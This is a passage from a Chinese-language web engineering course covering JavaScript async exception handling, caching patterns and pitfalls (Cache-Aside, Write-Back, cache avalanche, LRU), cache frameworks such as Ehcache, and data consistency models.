我们看到了其中的 setTimeout (async) 这样的字样，表示着这是一个异步调用抛出的堆栈，但是，“captured” 这样的字样也并未打印，因为母方法 fail() 本身的原始顺序执行并没有失败，这个异常的抛出是在回调行为里发生的。

从上面的例子可以看出，对于异步编程来说，我们需要使用一种更好的机制来捕获并处理可能发生的异常。

## Promise 的异常处理

还记得上面介绍的 Promise 吗？它除了支持 resolve 回调以外，还支持 reject 回调，前者用于表示异步调用顺利结束，而后者则表示有异常发生，中断调用链并将异常抛出：

```js
var exe = (flag) =>
  () => new Promise((resolve, reject) => {
    console.log(flag);
    setTimeout(() => { flag ? resolve("yes") : reject("no"); }, 1000);
  });
```

上面的代码中，flag 参数用来控制流程是顺利执行还是发生错误。在错误发生的时候，no 字符串会被传递给 reject 函数，进一步传递给调用链：

```js
Promise.resolve()
  .then(exe(false))
  .then(exe(true));
```

你看，上面的调用链，在执行的时候，第二行就传入了参数 false，它就已经失败了，异常抛出了，因此第三行的 exe 实际没有得到执行，你会看到这样的执行结果：

```
false
Uncaught (in promise) no
```

这就说明，通过这种方式，调用链被中断了，下一个正常逻辑 exe(true) 没有被执行。

但是，有时候我们需要捕获错误，而继续执行后面的逻辑，该怎样做？这种情况下我们就要在调用链中使用 catch 了：

```js
Promise.resolve()
  .then(exe(false))
  .catch((info) => { console.log(info); })
  .then(exe(true));
```

这种方式下，异常信息被捕获并打印，而调用链的下一步，也就是第四行的 exe(true) 可以继续被执行。我们将看到这样的输出：

```js
false
no
true
```

## async/await 下的异常处理

利用 async/await 的语法糖，我们可以像处理同步代码的异常一样，来处理异步代码：

```js
var run = async () => {
  try {
    await exe(false)();
    await exe(true)();
  } catch (e) {
    console.log(e);
  }
}

run();
```

简单说明一下 ，定义一个异步方法 run，由于 await 后面需要直接跟 Promise 对象，因此我们通过额外的一个方法调用符号 () 把原有的 exe 方法内部的 Thunk 包装拆掉，即执行 exe(false)() 或 exe(true)() 返回的就是 Promise 对象。在 try 块之后，我们使用 catch 来捕捉。运行代码，我们得到了这样的输出：

```js
false
no
```

这个 false 就是 exe 方法对入参的输出，而这个 no 就是 setTimeout 方法 reject 的回调返回，它通过异常捕获并最终在 catch 块中输出。就像我们所认识的同步代码一样，第四行的 exe(true) 并未得到执行。

<h1 id="chapter21">21 | 赫赫有名的双刃剑：缓存（上）</h1>

## 缓存的本质

工作中，我们可能每周都会谈到缓存，我们见过各种各样的缓存实现，网上也有各种各样的解释和定义。可是，你觉得，到底什么是缓存呢？

我认为，缓存，简单说就是为了节约对原始资源重复获取的开销，而将结果数据副本存放起来以供获取的方式。

**首先，缓存往往针对的是“资源”**。我们前面已经多次提到过，当某一个操作是“幂等”的和“安全”的（如果不记得的话请重看 [第 04 讲]），那么这样的操作就可以被抽象为对“资源”的获取操作，那么它才可以考虑被缓存。有些操作不幂等、不安全，比如银行转账，改变了目标对象的状态，自然就难以被缓存。

**其次，缓存数据必须是“重复”获取的**。缓存能生效的本质是空间换时间。也就是说，将曾经出现过的数据以占据缓存空间的方式存放下来，在下一次的访问时直接返回，从而节约了通过原始流程访问数据的时间。有时候，某些资源的获取行为本身是幂等的和安全的，但实际应用上却不会“重复”获取，那么这样的资源是无法被设计成真正的缓存的。我们把一批数据获取中，通过缓存获得数据的次数，除以总的次数，得到的结果，叫做缓存的命中率。

**再次，缓存是为了解决“开销”的问题**。这个开销，可不只有时间的开销。虽然我们在很多情况下讲的开销，确实都是在时间维度上的，但它还可以是 CPU、网络、I/O 等一切资源。例如我们有时在 Web 服务中增加一层缓存，是为了避免了对原始资源获取的时候，对数据库资源调用的开销。

**最后，缓存的存取其实不一定是“更快”的**。有些程序员朋友对缓存访问总有一个比原始资源访问“更快”的概念，但这是不确切的。那不快，还要缓存干什么呢？别急，请往下看。

针对上面说的对“开销”的节约，你可以想象，每一种开销都能够成为缓存使用的动机。但其中，**有两个使用动机最为常见，一个是 latency，延迟**，即追求更低的延迟，这也是“更快”这个印象的由来；**另一个使用动机，是 throughput，吞吐量**，即追求更高的吞吐量。这个事实存在，也很常见，但是却较少人提及，且看下面的例子。

比如某个系统，数据在关系数据库中存放，获取速度很快，但是还在 S3 这个分布式文件系统上存放有数据副本，它的访问速度在该系统中要低于数据库的访问速度。某些请求量大的下游系统，会去 S3 获取数据，这样就缓和了前一条提到的数据库“开销”问题，但数据获取的速度却降下来了。这里 S3 存放的数据，也可以成为很有意义的缓存，即便它的存取其实是更慢的。这种情况下，S3 并没有改善延迟，但提供了额外的吞吐量，符合上面提到的第二个使用动机。

另外，即便我们平时谈论的缓存“更快”访问的场景，**这个“快”也是相对而言的，在不同系统中同一对象会发生角色的变化**。例如，CPU 的多级高速缓存，就是内存访问的“缓存”；而内存虽然较 CPU 存取较慢，但比磁盘快得多，因此它可以被用作磁盘的“缓存”介质。

## 缓存无处不在

曾经有一个很经典的问题，讲的大致是当浏览器地址栏中，输入 URL（比如极客时间 https://time.geekbang.org/）按下回车，之后的几秒钟时间里，到底发生了什么。我们今天还来谈论这件事情，但是从一个特别的角度——缓存的角度来审视它。

对于地址栏中输入的域名，浏览器需要搞清楚它代表的 IP 地址，才能进行访问。过程如下：

- 它会先查询浏览器内部的“域名 -IP”缓存，如果你曾经使用该浏览器访问过这个域名，这里很可能留有曾经的映射缓存；
- 如果没有，会查询操作系统是否存在这个缓存，例如在 Mac 中，我们可以通过修改 /etc/hosts 文件来自定义这个域名到 IP 的映射缓存；
- 如果还没有，就会查询域名服务器（DNS，Domain Name System），得到对应的 IP 和可缓存时间。

Linux 或 Mac 系统中，你可以使用 dig 命令来查询：

```
dig time.geekbang.org
```

得到的信息中包含：

```
time.geekbang.org.  600  IN  A  39.106.233.176
```

这是说这个 IP 地址就是极客时间对应的地址，可以被缓存 600 秒。

当请求抵达服务端，在反向代理中也是可以进行缓存配置的，比如我们曾经在 [第 09 讲] 中介绍过服务端包含 SSI 的方式来加载母页面上的一些静态内容。

接着，请求终于抵达服务端的代码逻辑了，对于一个采用 MVC 架构的应用来说，MVC 的各层都是可以应用缓存模式的。

- 对于 Controller 层来说，我们在 [第 12 讲] 中曾经介绍过拦截过滤器，而拦截过滤器中，我们就是可以配置缓存来过滤服务的，即满足某些要求的可缓存请求，我们可以直接通过过滤器返回缓存结果，而不执行后面的逻辑，我们在下一讲会学到具体怎样配置。

- 对于 Model 层来说，几乎所有的数据库 ORM 框架都提供了缓存能力，对于贫血模型的系统，在 DAO 上方的 Service 层基于其暴露的 API 应用缓存，也是一种非常常见的形式。

- 对于 View 层，很多页面模板都支持缓存标签，页面中的部分内容，不需要每次都执行渲染操作（这个开销很可能不止渲染本身，还包括需要调用模型层的接口而造成显著的系统开销），而可以直接从缓存中获取渲染后的数据并返回

当母页面 HTML 返回了浏览器，还需要加载页面上需要的大量资源，包括 CSS、JavaScript、图像等等，都是可以通过读取浏览器内的缓存，而避免一个新的 HTTP 请求的开销的。通过服务端设置返回 HTTP 响应的 Cache-Control 头，就可以很容易做到这一点。例如：

```js
Cache-Control: public, max-age=84600
```

即便某资源无法被缓存，必须发起单独的 HTTP 请求去获取这样的资源，也可以通过 CDN 的方式，去较近的资源服务器获取，而这样的资源服务器，对于分布式网络远端的中心节点来说，就是它的缓存。

你看，对于这样的一个过程，居然有那么多的缓存在默默地工作，为你的网上冲浪保驾护航。如果继续往细了说，这个过程中你会看到更多的缓存技术应用，但我们就此打住吧，这些例子已经足够说明缓存应用的广泛度和重要性了。

## 缓存应用模式

在 Web 应用中，缓存的应用是有一些模式的，而我们可以归纳出这些模式以比较的方式来学习，了解其优劣，从而在实际业务中可以合理地使用它们。

## 1. Cache-Aside

这是最常见的一种缓存应用模式，整个过程也很好理解。

数据获取策略：

- 应用先去查看缓存是否有所需数据；
- 如果有，应用直接将缓存数据返回给请求方；
- 如果没有，应用执行原始逻辑，例如查询数据库得到结果数据；
- 应用将结果数据写入缓存。


我们见到的多数缓存，例如前面提到的拦截过滤器中的缓存，基本上都是按照这种方式来配置和使用的。

数据读取的异常情形：

- 如果数据库读取异常，直接返回失败，没有数据不一致的情况发生；
- 如果数据库读取成功，但是缓存写入失败，那么下一次同一数据的访问还将继续尝试写入，因此这时也没有不一致的情况发生。

可见，这两种异常情形都是“安全”的。

数据更新策略：

- 应用先更新数据库；
- 应用再令缓存失效。

这里，避免踩坑的关键点有两个：

数据更新的这个策略，通常来说，最重要的一点是**必须先更新数据库，而不是先令缓存失效**，即这个顺序不能倒过来。原因在于，如果先令缓存失效，那么在数据库更新成功前，如果有另外一个请求访问了缓存，发现缓存数据库已经失效，于是就会按照数据获取策略，从数据库中使用这个已经陈旧的数值去更新缓存中的数据，这就导致这个过期的数据会长期存在于缓存中，最终导致数据不一致的严重问题。

这里我画了一张图，可以帮你理解，如果先令缓存失效，再更新数据库，为什么会导致问题：



第二个关键点是，**数据库更新以后，需要令缓存失效，而不是更新缓存为数据库的最新值**。为什么呢？你想一下，如果两个几乎同时发出的请求分别要更新数据库中的值为 A 和 B，如果结果是 B 的更新晚于 A，那么数据库中的最终值是 B。但是，如果在数据库更新后去更新缓存，而不是令缓存失效，那么缓存中的数据就有可能是 A，而不是 B。因为数据库虽然是“更新为 A”在“更新为 B”之前发生，但如果不做特殊的跨存储系统的事务控制，缓存的更新顺序就未必会遵从“A 先于 B”这个规则，这就会导致这个缓存中的数据会是一个长期错误的值 A。

这张图可以帮你理解，如果是更新缓存为数据库最新值，而不是令缓存失效，为什么会产生问题：


如果是令缓存失效，这个问题就消失了。因为 B 是后写入数据库的，那么在 B 写入数据库以后，无论是写入 B 的请求让缓存失效，还是并发的竞争情形下写入 A 的请求让缓存失效，缓存反正都是失效了。那么下一次的访问就会从数据库中取得最新的值，并写入缓存，这个值就一定是 B。

这两个关键点非常重要，而且不当使用引起的错误还非常常见，希望你可以完全理解它们。在我参与过的项目中，在这两个关键点上出错的系统我都见过（在这两点做到的情况下，其实还有一个理论上极小概率的情况下依然会出现数据错误，但是这个概率如此之小，以至于一般的系统设计当中都会直接将它忽略，但是你依然可以考虑一下它是什么）。

数据更新的异常情形：

- 如果数据库操作失败，那么直接返回失败，没有数据不一致的情况发生；
- 如果数据库操作成功，但是缓存失效操作失败，这个问题很难发生，但一旦发生就会非常麻烦，缓存中的数据是过期数据，需要特殊处理来纠正。

## 2. Read-Through

这种情况下缓存系统彻底变成了它身后数据库的代理，二者成为了一个整体，应用的请求访问只能看到缓存的返回数据，而数据库系统对它是透明的。


有的框架提供的内置缓存，例如一些 ORM 框架，就是按这种 Read-Through 和 Write-Through 来实现的。

数据获取策略：

- 应用向缓存要求数据；
- 如果缓存中有数据，返回给应用，应用再将数据返回；
- 如果没有，缓存查询数据库，并将结果写入自己；
- 缓存将数据返回给应用。

数据读取异常的情况分析和 Cache-Aside 类似，没有数据不一致的情况发生。

## 3. Write-Through

和 Read-Through 类似，图示同上，但 Write-Through 是用来处理数据更新的场景。

数据更新策略：

- 应用要求缓存更新数据；
- 如果缓存中有对应数据，先更新该数据；
- 缓存再更新数据库中的数据；
- 缓存告知应用更新完成。

这里的一个关键点是，**缓存系统需要自己内部保证并发场景下，缓存更新的顺序要和数据库更新的顺序一致。**比如说，两个请求分别要把数据更新为 A 和 B，那么如果 B 后写入数据库，缓存中最后的结果也必须是 B。这个一致性可以用乐观锁等方式来保证。

数据更新的异常情形：

- 如果缓存更新失败，直接返回失败，没有数据不一致的情况发生；
- 如果缓存更新成功，数据库更新失败，这种情况下需要回滚缓存中的更新，或者干脆从缓存中删除该数据。

还有一种和 Write-Through 非常类似的数据更新模式，叫做 Write-Around。它们的区别在于 Write-Through 需要更新缓存和数据库，而 Write-Around 只更新数据库（缓存的更新完全留给读操作）。

## 4. Write-Back

对于 Write-Back 模式来说，更新操作发生的时候，数据写入缓存之后就立即返回了，而数据库的更新异步完成。这种模式在一些分布式系统中很常见。

这种方式带来的最大好处是拥有最大的请求吞吐量，并且操作非常迅速，数据库的更新甚至可以批量进行，因而拥有杰出的更新效率以及稳定的速率，这个缓存就像是一个写入的缓冲，可以平滑访问尖峰。另外，对于存在数据库短时间无法访问的问题，它也能够很好地处理。

但是它的弊端也很明显，异步更新一定会存在着不可避免的一致性问题，并且也存在着数据丢失的风险（数据写入缓存但还未入库时，如果宕机了，那么这些数据就丢失了）。

<h1 id="chapter22">22 | 赫赫有名的双刃剑：缓存（下）</h1>

## 缓存使用的问题

既然说缓存是“双刃剑”，那我们就必须要谈论它的另一刃——缓存使用可能带来的问题。

## 1. 缓存穿透

**缓存穿透，指的是在某些情况下，大量对于同一个数据的访问，经过了缓存屏障，但是缓存却未能起到应有的保护作用。**举例来说，对某一个 key 的查询，如果数据库里没有这个数据，那么缓存中也没有数据的存放，每次请求到来都会去查询数据库，缓存根本起不到应有的作用。

当然，这个问题也不难解决，比方说我们可以在缓存中对这个 key 存放一个空结果，毕竟“没有结果”也是结果，也是需要缓存起来的。还有一种缓解方法是使用**布隆过滤器**等数据结构，在数据库查询之前，预先过滤掉某些不存在的结果。

还有一种特殊情况也会造成缓存穿透的严重后果。一般的缓存策略下，往往需要先发生一次缓存命中失败，接着从实际存储（比如数据库）中得到结果，再回填到内存缓存中。但是，如果这个数据库查询过程比较慢，大量同一数据的请求像雨点一样几乎同时到来，就会全部穿透缓存，一并落到了数据库上，而那个时候最早的那个请求引发的缓存回填甚至都还没有发生，在这种情况下数据库直接就挂掉了，虽然缓存的机制本身看起来并没有任何问题。

这种问题在某些时间窗口敏感的高并发系统中可能出现，解决方法有这样两种。

- 一种是以流量控制的方式，限制对于同一数据的访问，必须等到前一个完成以后，下一个才能进行，即如果缓存失效而引发的数据库查询正在进行，其它请求就得老老实实地等着。这种方法通用性好，但这个等待机制可能较为复杂，且有可能影响用户体验。
- 另一种方法是缓存预热，在大批量请求到来以前，先主动将该缓存填充好。这种方法操作简单高效，但局限性是需要提前知道哪些数据可能引发缓存穿透的问题。

## 2. 缓存雪崩

**原本起屏障作用的缓存，如果在一定的时间段内，对于大量的请求访问失效，即失去了屏障作用，造成它后方的系统压力过大，引起系统过载、宕机等问题，就叫做缓存雪崩。**

我以前在 Amazon 工作的时候，有个著名的内部分享，介绍了 Amazon 曾经发生的“六大灾难”，其中一大就是缓存雪崩。这个问题发生的时间已经是好多年前了，具体是这样的：有一次 Amazon 机房突然断电，在恢复的时候把网页服务器都通上了电，这时候缓存服务几乎还没有缓存数据，缓存命中率几乎为零，于是大量的请求冲向数据库，直接把数据库冲垮了。外在的表现就是，断电导致网站无法提供服务，短期内访问恢复，随后又丧失服务能力。

事实上，我们也总能看到很多技术报告里面写：平均的缓存命中率能够达到百分之九十多，可以飙到多少多少的 TPS，为此可以节约多少多少硬件成本。初看这样的设计真不错，但是很容易忽视的一点是：这样的数据是建立在足够长的时间以及足够多的统计数据的基础之上的，但是在单个时间段内，由于缓存雪崩效应，缓存命中率可以低到难以承受的地步，导致底层的数据服务直接被冲垮。

对于**这种类型的雪崩，最常见的解决方法无非还是限流、预热两种：**前者保证了请求大量落到数据库的时候，系统只接纳能够承载的数量；而后者则在请求访问前，先主动地往内存中加载一定的热点数据，这样请求到来的时候，缓存不是空的，已经具有一定的保护能力了。

好，我们再回到 Amazon 那个问题，当时的解决方法就是我们刚刚讲的第一种——限流。当时整个系统对于单台机器的限流已经做得比较好了，后来工程师一台一台逐步启动，每启动一台机器，就等一会，等到缓存数据填充并稳定以后，再启动下一台，这样最多也就是单台机器的所有请求全部发生了穿透，这个数量就小得多了，数据库也是可以正常负载的。

另外一个常见的缓存雪崩场景是：缓存数据通常都有过期时间的，如果缓存加载的时间比较集中，那么很可能到了某一时间点，大量的缓存就会同时过期，于是对应这些数据的请求全部落到了后面的数据库上，从而造成系统崩溃。这个问题解决起来也不难，那就是避免缓存集中写入的时间，如果无法避免，就使用一个范围随机数来均匀地分散过期时间，从而打散缓存过期对系统造成的压力。

## 3. 缓存容量失控

刚工作不久的时候，我参与做过这样一个系统，用户的行为需要被记录到数据库里，但是每条记录发生的时候都写一次数据库的话开销就太大了，于是有同事设计了一个链表：

- 用户的行为首先会被即时记录到内存链表里面去；

- 每 10 分钟从链表往数据库里面集中写一次数据，然后清空链表内的数据。

看起来这就像是我们在 [第 21 讲] 中讲到的 Write-Back 模式，看起来也确实可以实现需求。可是，上线没多久系统就挂掉了。那么，这样的设计有什么问题呢？

- 清空链表数据是使用时间条件触发的任务来完成，**通过时间因素来限制空间大小，远不如通过队列长度来限制空间大小来得可靠**。换句话说，如果这 10 分钟内事件暴增，链表就很容易变得非常大。**这个变化范围取决于请求的上限，而不是在缓存系统自己的掌控中**。
- 清空链表的任务，如果在执行的过程中出现了异常，甚至仅仅是处理速度受到阻塞，那就会直接导致链表数据无法得到清空，甚至越积越多。实际上，**链表清空数据并写入数据库是一个耗时的异步行为，这是另一个受控性较差的点**。我们在使用异步系统批量写入数据的时候，一定要考虑这个潜在的危险。

这些问题当然在明确的情况下可以得到规避，但是毫无疑问，这样的设计充满了潜在的危险。事实上，最终这样的问题也确实发生了，二者相加导致的结果是链表巨大，撑死了整个系统，OOM，系统失去响应。

因此，我们对于缓存容量的控制，最好是基于缓存容量本身来直接控制，但是考虑到某些编程语言的自身限制，比如 Java，从内存消耗的角度来实现不方便，那么就可以通过基于队列的长度来替代实现。

## 4. LRU 的致命缺陷

LRU 指的是 Least Recently Used，最少最近使用算法。这是缓存队列维护的最常见算法，原理是：维护一个限定最大容量的队列，队列头部总是放置最近访问的元素（包括新加入的元素），而在超过容量限制时总是从队尾淘汰元素。

我们可以用这样一张图，来解释 LRU 的工作原理：


假设用这个缓存的 LRU 队列来存储城市信息，且队列容量只有 2。

- 第一步，用户访问上海信息，上海节点被加入队列；
- 第二步，用户访问北京信息，北京节点从队列头部加入，上海相应地被往尾部推；
- 第三步，用户又访问上海信息，上海被挪到头部；
- 第四步，用户访问天津信息，从头部加入队列后，队列长度超出容量 2，因此从尾部将北京挤出缓存队列。

这看起来是个很完美的缓存淘汰算法，在队列较长时，总是能保证最近访问的数据位于队列的头部，而在需要从缓存中淘汰数据时，总是能从尾部淘汰最不常用的那一个。但是，如果用户有意无意地访问一些错误信息，就会破坏掉这个 LRU 队列中最近访问数据的真实性。

我曾经在实际项目中遇到过这样一个问题，由于搜索引擎的多个并行爬虫在短时间内访问网站并抓取一些冷门页面，这时候这个 LRU 队列中就存储了相关的冷门数据信息。接着网站活动开启的时间到了，用户量很快就上来了，这时候大量的数据访问全部穿透缓存，导致数据库压力剧增，网站响应时间一下就飙升到了告警线之上。

既然这个问题已经很明确了，那么解决就不是难事了。有多种算法可以作为 LRU 的改进方案，比如 LRU-K。就是主缓存队列排的是“第 K 次访问的元素”，也就是说，如果访问次数小于 K，则在另外的一个“低级”队列中维护，这样就保证了只有到达一定的访问下限才会被送到主 LRU 队列中。

这种方法保证了偶然的页面访问不会影响网站在 LRU 队列中应有的数据分布。再进一步优化，可以将两级队列变成更多级，或者是将低级队列的策略变成 FIFO（2Q 算法）等等，但原理是不变的。

## 缓存框架

鉴于缓存的普遍性，缓存框架也可以说是百花齐放。如果你在大型 Web 项目中工作过，你很可能已经用过某一个缓存框架了。下面我就针对缓存框架的两个方面进行讲解，一方面是集成方式，另一方面是核心要素。希望这部分内容，可以帮助你在考察新的缓存框架的时候，心里能有个大致可以参照的谱。

## 集成方式

在上一讲我介绍了 Web 应用 MVC 的三层都可以集成缓存能力，下面我们来进一步思考这部分内容。缓存功能具体怎样整合集成到 Web 应用中，每一种方式都意味着一个切入点。我认为归纳一下，通常包含了下面这样几种方式。

## 方式 1：编程方式

这种是最常见的方式，使用编程的方式来获取缓存数据。这种方式比较灵活，对于代码往往以 Cache-Aside 模式应用。我们以 Java 世界应用最广泛的缓存框架 Ehcache 为例，示例代码片段如下：

```java
Cache<String, City> cityCache = cacheManager.createCache("cityCache", CacheConfigurationBuilder.newCacheConfigurationBuilder(String.class, City.class, resourcePools));
cityCache.put("Beijing", beijingInfo); 
City beijing = cityCache.get("Beijing"); 
```

这里建立了一个城市的缓存，key 为城市名称，value 为城市对象，存取操作和对普通 Map 的操作相比，没有区别。

## 方式 2：方法注解

这种方式的好处在于，可以对方法的调用保持透明，不需要使用单独的缓存代码去分散对业务逻辑的专注。且看下面的例子：

```java
@Cacheable(value="getCity", key="#name")
public City getCity(String name) { ... }
```

这种方式下，同名、同参数方法的再次调用，就可以命中缓存而直接返回。

## 方式 3：配置文件的注入

这种也比较常见，比如 MyBatis 在 mapper 标签中可以指定 cache 标签，通过这种方式就可以把选定的缓存框架注入到这个持久层框架中。对于指定映射的数据，再次访问时会优先从缓存中查找，这种应用方式就是前一讲我们提到的缓存应用模式中的 Read/Write-Through 模式。

```xml
<mapper namespace="..." >
  <cache type="org.mybatis.caches.ehcache.EhcacheCache"/>
  ...
</mapper>
```

## 方式 4：Web 容器的 Filter

在 Ehcache 2 中，可以配置 net.sf.ehcache.constructs.web.filter.SimplePageCachingFilter 这样一个 filter 到 Tomcat 的 web.xml 中，再配合 filter 的映射匹配参数和初始化参数，就可以实现整个请求的过滤功能。

在 Ehcache 3 中，这个类被取消了，因为它的业务性过于具体，不符合 Ehcache 的设计原则。但是，你依然可以在 filter 里面，以前面提到的编程方式很容易地实现对于完整请求的缓存。如果你对这里提到的 filter 感到陌生，可以回看 [第 12 讲] 中的“Tomcat 中配置过滤器”这部分内容。

## 方式 5：页面模板中的 Cache 标签

这种方式相对比较少见，有一些页面模板支持 Cache 标签或表达式语法（例如 Django 中，它被称为 Template Fragment Caching），在标签属性或语法参数中可以指定缓存的时间和条件，标签内部的 HTML 将被缓存起来，以避免在每次模板渲染时都去执行其中的逻辑。

## 核心要素

一个缓存框架，拥有的特性和要素可以说五花八门，可是，有一些是真正的“核心”，在缺少了以后，就很难再称之为一个“缓存框架”了。那么，有哪些要素可以称之为缓存框架的核心呢？我认为，它至少包括这样几点。

## 要素 1：缓存数据的生命周期管理

缓存框架不只提供了一个简单的容器，还提供了使容器中的数据进行变动的能力，比如数据可以创建、更新、移动以及淘汰。且看 Ehcache 官网上的这张示意图：


整个容器是分层的，从上到下分别为 L1 Heap、L1 BigMemory、L2 Heap、L2 BigMemory 和 L2 Disk，级别依次降低。这里面定义了几种不同的行为，来反映数据的流动：

- Flush，右侧黄色的箭头，数据从高层向低层移动；
- Fault，左侧绿色箭头，数据从低层拷贝到高层，但不删除；
- Eviction，下方红色箭头，数据永久淘汰出缓存数据容器；
- Expiration，上方烟灰色图案，数据过期了，意味着可以被 flushed 或者 evicted，但是考虑到性能，不一定立即执行这个操作；
- Pinning，右上角蓝色图案，数据被强制钉在某一层，不受流动规则控制。

## 要素 2：数据变动规则

上面这些基本数据变动的“行为”，是属于系统侧的定义，只有它们，缓存系统是无法工作的。我们必须有规则，执行规则，才会触发上面的不同行为，引起数据真正的变动。

比如说，当一个热点数据因为最近没有访问而从 L1 Heap 挤出去的时候，Flush 行为发生了；在 L2 Disk 上的数据一直没有被访问，超过了期限，淘汰出容器。这样，这些缓存数据变动的具体行为就得到了解释，而这正是由我们预先定义好的“规则”所决定的（这里的算法不一定只是缓存队列的淘汰算法，正如你所见，淘汰可以只是多个数据变动行为中的一个而已）。

## 要素 3：核心 API

这里本质上反映的是缓存框架实现的时候，核心代码结构的设计。当我们把这类的代码结构设计进一步上升到规范层面，它们就可以被定义成接口，即允许不同的缓存框架可以实现同样的设计，在 Java 中，这个东西有一个官方 JSR 的版本 JSR-107。它定义了 CachingProvider、CacheManager、Cache、Cache.Entry 等几个接口。

## 要素 4：用户侧 API

这是指暴露给用户访问缓存的接口，比如常见的向缓存内放置一条数据的接口，或者从缓存内取出一条数据的接口。值得一提的是，我们通常见到的用户 API 都是 Map-like 的结构，即众所周知的 key-value 形式，但其实缓存框架完全可以支持其它的形式，这取决于数据访问的方式，因此这并不是一个绝对的限制。

<h1 id="chapter23">23 | 知其然，知其所以然：数据的持久化和一致性</h1>

我想你很可能已经使用过许多存储层的技术了，例如缓存、文件、关系数据库，甚至一些云上 key-value 的存储服务，但就如同我之前提到的那样，某项具体技术总是相对好学，可对于全栈知识系统地学习，也包括持久层的学习，是一定要立足于技术的基础、原理和本质的。今天，我们要讲的就是其中之一 —— 一致性（Consistency）。

数据的可用性和一致性是很多工程师几乎每天都会挂在嘴边的概念，在存储系统的技术选型上面，一致性将会是我们一个重要的衡量因素，而在持久层架构设计上面，它也将是最重要的思考维度。

数据的一致性不但是数据持久化的一个核心内容，也是学习的一个难点，希望我们一起努力，从原理上去彻底理解它，并学习一些常见的应用模式，做到“知其然，知其所以然”，我们一起把这个难啃的骨头给啃下来。

## 概念和背景

数据持久化，本质上就是把内存中的数据给转换并写入指定的存储系统中，这个过程是保证数据不丢失的基本方式，而这个存储系统可以具备很多种形式，可以是网络、硬盘文件，也可以是数据库，还可以是前面两讲提到的某种形式的缓存。

你也许听说过对于一致性的不同解释，而我们在谈论数据持久化的时候讲到的一致性，我认为简单来说，指的就是在存储系统中，客户端对数据的读写行为都是可以预期、符合一定规则的。这里有两个值得注意的方面：

- **可以预期和符合规则，而不是说读到的数据是“一致的”“准确的”或是“最新的”**，是因为存在不同的一致性模型，数据对一致性遵从的程度和规则都不同，下文我会讲到。
- 一致性判断的视角要从客户端来看，也就是说，**存储系统实际存储的数据可以在某些时候不遵从我们所要求的一致性，而只需要保证存储系统的客户端能读取到一致的数据就可以了**。举例来说，某一个数据更新的过程中，对于存储系统来说，新数据其实已经写入，但由于事务还未提交，这时客户端读到的还是老数据。

我想这个概念并没有什么特殊之处，但是，这里面隐含了一个事情，就是说，为什么要有数据备份呢？

为了可用性（Availability）。

**服务为了高可用，就要部署多个节点；数据为了高可用，就要存放多个备份**。这里的数据，既包括数据本身，又包括数据的读写服务，这是因为：

- 要让数据不丢失，冗余几乎是唯一的办法，因为再好的存储介质也架不住设备老化和各种原因的破坏；
- 同理，为了数据访问服务能保持可用，包括保证足够的性能，必须要提供多个节点的读写操作服务，于是，我们不得不创建多个数据副本。

那么一环扣一环，如果只有一份数据，是不存在一致性问题的，因为数据自己也只有一份，没法存在不一致，但有了数据副本，一致性就成为了课题。

## 一致性模型

你很可能已经听说过这三种一致性模型，下面我们来分别了解一下。

**强一致性（Strong Consistency）：**强一致性要求任意时间下，读操作总是能取得最近一次写操作写入的数据。

注意，这里依然是从存储系统客户端的角度来描述的，**即便如强一致性的限制，也只要求在读取的时候能读到“最新”的数据就可以了，至于这个在上次写操作之后、这次读操作之前，对存储系统内部的数据是否是“最新”的并无要求。**我们经常使用的传统关系型数据库，比如 Oracle、MySQL，它们都是符合强一致性的。

**弱一致性（Weak Consistency）：弱一致性和强一致性相反，读操作并不能保证**可以取得最新一次写操作写入的数据，也就是说，客户端可能读到最新的数据，也可能读不到最新的数据。

这个“并不能保证”就有点“搞笑”了——都不确定能不能读到最新值，那它有什么用？其实它的应用也挺广泛的，最常见的例子就是缓存，比如一个静态资源被浏览器缓存起来，那么这之后只要是从缓存内取得的数据，使用者其实根本不知道这个数据是不是最新的，因为即便它实际有了更新，服务端也不会通知你。

**最终一致性（Eventual Consistency）：**最终一致性介于强一致性和弱一致性之间，写操作之后立即进行读操作，可能无法读到更新后的值，但是如果经过了一个指定的时间窗口，就能保证可以读到那个更新后的值。

最终一致性可能是我们日常生活中最常见的一致性模型了。比如搜索引擎，搜索引擎的爬虫会定期爬取数据，并更新搜索数据，因此如果你的网站只是刚刚更新，可能还无法搜到这个更新内容，但只要是过了一定的时间窗口，它就会出现在搜索结果中了。

## 数据高可用的架构技术

接下来，我们探讨互联网应用中最常见的几种架构技术，它们都是用以解决数据可用性的问题，就如同我们在上文中所提到的那样，既包括数据本身的可用性，又包括数据读写服务的可用性。

## 1. 简单备份

简单备份（Backup）指的就是定期或按需对存储系统中的数据全量或增量进行复制，并保存为副本，从而降低数据丢失风险的一种方式。


这是一种实现上最简单的技术，在个人电脑上极其常见，但即便在工业界，依然有大量的应用场景。比方说 Amazon RDS（将关系数据库搬到云上）的 Snapshot 技术，可以定期将所有数据导出为一份副本。在 CPU 和 I/O 等资源不成为瓶颈的情况下，因为是异步进行的，简单备份往往对存储系统读写操作的影响很小。

但是，这种方式存在存储系统的单点故障问题，一旦存储系统挂掉了，服务也就中断了，因此基本没法谈可用性。

你可能会说，可用性的话，可以给访问存储的 Web 服务器做双机备份啊。没错，但那解决的是 Web 服务器可用性的问题，并不是我们这里最关心的数据可用性的问题，数据存储依然是单点的。同时，如果什么时候存储系统挂掉了，那么只能恢复到最近一次的备份点，因此可能丢失大量的数据。

## 2. Multi-Master

Multi-Master 架构是指存在多个 Master（主）节点，各自都提供完整的读写服务，数据备份之间的互相拷贝为了不影响读写请求的性能，通常是异步进行的。


从图中，你可以看到，如果某一主节点对应的存储服务挂掉了，那么还有另一个主节点可以提供对应服务，因此，这种方式是可以提供高可用服务的。图中只放了两个主节点，但是其实是可以放置多个的。

关于一致性，通常情况下节点之间的数据互拷贝是异步进行的，因此是最终一致性。需要说明的是，这个数据互拷贝理论上也是可以做到同步进行的，即将数据拷贝到所有其它的主节点以后再将响应返回给用户，而且那种情况下就可以做到强一致性，不过实际却很少有这样做的，这是为什么呢？

第一个原因，显而易见，同步的数据拷贝会导致整体请求响应的时延增加。

第二个，也是更重要的原因，如果有节点异常，这个拷贝操作就可能会超时或失败，这种情况下，你觉得存储系统应该怎样对待这个错误？显然，存储系统会陷入两难的境地。

- 如果系统容许错误发生，不返回错误给用户，那么强一致性就无法保证，既然无法保证，那么这个拷贝过程就完全可以设计成异步的，因为既然无论如何也无法保证强一致性，这个同步除了增加时延以外，并未带来任何明显的好处。
